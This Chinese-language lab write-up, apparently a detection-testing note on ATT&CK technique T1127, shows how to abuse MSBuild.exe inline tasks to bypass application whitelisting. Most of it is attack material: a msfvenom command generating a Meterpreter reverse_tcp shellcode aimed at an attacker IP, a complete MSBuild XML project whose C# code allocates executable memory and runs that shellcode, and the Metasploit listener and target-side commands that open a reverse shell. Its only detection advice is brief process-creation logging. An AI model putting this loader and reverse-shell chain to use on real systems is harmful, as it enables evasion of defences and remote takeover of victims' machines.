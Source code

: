 # T1127-win-基于白名单Msbuild.exe执行payload

## 来自ATT&CK的描述

MSBuild.exe（Microsoft Build Engine）是Visual Studio使用的软件构建平台。它采用XML格式的项目文件，定义了各种平台的构建要求和配置。

攻击者可能会使用MSBuild通过受信任的Windows实用程序来代理执行代码。.NET 4中引入的MSBuild内联任务功能允许将C＃代码插入到XML项目文件中。内联任务MSBuild将编译并执行内联任务。MSBuild.exe是一个签名的微软二进制文件，因此当它以这种方式使用时，它可以执行任意代码并绕过配置为允许MSBuild.exe执行的应用白名单防御。

## 测试案例

MSBuild 是 Microsoft Build Engine 的缩写，代表 Microsoft 和 Visual Studio的新的生成平台。MSBuild在如何处理和生成软件方面是完全透明的，使开发人员能够在未安装Visual Studio的生成实验室环境中组织和生成产品。

MSBuild 引入了一种新的基于 XML的项目文件格式，这种格式容易理解、易于扩展并且完全受 Microsoft 支持。MSBuild项目文件的格式使开发人员能够充分描述哪些项需要生成，以及如何利用不同的平台和配置生成这些项。

说明：Msbuild.exe所在路径没有被系统添加PATH环境变量中，因此，Msbuild命令无法识别。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

win7默认位置：

`C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe`

## 检测日志

windows 安全日志（需要自行配置）据称可以绕过360，待确认

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows server 2012

### 测试过程

#### MSF生成载荷

```bash
msfvenom -a x86 –platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=4444 -f csharp
```

![载荷](https://img-blog.csdnimg.cn/20200413135116398.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70)

#### XML文件设置

```xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
         <!-- This inline task executes shellcode. -->
         <!-- C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe SimpleTasks.csproj -->
         <!-- Save This File And Execute The Above Command -->
         <!-- Author: Casey Smith, Twitter: @subTee -->
         <!-- License: BSD 3-Clause -->
    <Target Name="Hello">
      <ClassExample />
    </Target>
    <UsingTask
      TaskName="ClassExample"
      TaskFactory="CodeTaskFactory"
      AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
      <Task>

        <Code Type="Class" Language="cs">
        <![CDATA[
    using System;
    using System.Runtime.InteropServices;
    using Microsoft.Build.Framework;
    using Microsoft.Build.Utilities;
    public class ClassExample :  Task, ITask
    {
      private static UInt32 MEM_COMMIT = 0x1000;
      private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
      [DllImport("kernel32")]
        private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
        UInt32 size, UInt32 flAllocationType, UInt32 flProtect);
      [DllImport("kernel32")]
        private static extern IntPtr CreateThread(
        UInt32 lpThreadAttributes,
        UInt32 dwStackSize,
        UInt32 lpStartAddress,
        IntPtr param,
        UInt32 dwCreationFlags,
        ref UInt32 lpThreadId
        );
      [DllImport("kernel32")]
        private static extern UInt32 WaitForSingleObject(
        IntPtr hHandle,
        UInt32 dwMilliseconds
        );
      public override bool Execute()
      {
        byte[] shellcode = new byte[] {
你的payload};

          UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length,
      MEM_COMMIT, PAGE_EXECUTE_READWRITE);
          Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
          IntPtr hThread = IntPtr.Zero;
          UInt32 threadId = 0;
          IntPtr pinfo = IntPtr.Zero;
          hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
          WaitForSingleObject(hThread, 0xFFFFFFFF);
          return true;
      }
    }
        ]]>
        </Code>
      </Task>
    </UsingTask>
  </Project>
```

![XML文件设置](https://img-blog.csdnimg.cn/20200413135530841.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70)

#### 设置监听

```bash
use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.126.146
msf exploit(multi/handler) > set lport 4444
msf exploit(multi/handler) > exploit
```

![监听](https://img-blog.csdnimg.cn/20200413140326808.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70)

#### 靶机执行payload

```dos
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe file.xml
```

![加载payload](https://img-blog.csdnimg.cn/20200413140707313.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70)

#### 查看会话

![反弹会话](https://img-blog.csdnimg.cn/20200413140810400.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70)

## 测试留痕

![日志留痕](https://img-blog.csdnimg.cn/20200413140937397.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70)

## 检测规则/思路

无具体检测规则，可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略/sysmon。

## 参考推荐

MITRE-ATT&CK-T1127

<https://attack.mitre.org/techniques/T1127/>

利用msbuild.exe绕过应用程序白名单安全机制的多种姿势

<https://www.freebuf.com/articles/network/197706.html>

GreatSCT|MSF|白名单

<http://www.secist.com/archives/6082.html>

对亮神基于白名单 Msbuild.exe 执行 payload 第一季复现

<https://blog.csdn.net/ws13129/article/details/89736941>

检测白名单Msbuild.exe执行payload

<https://blog.csdn.net/qq_36334464/article/details/105487176>

基于白名单执行payload

<https://www.jianshu.com/p/cdb1867c6abb>
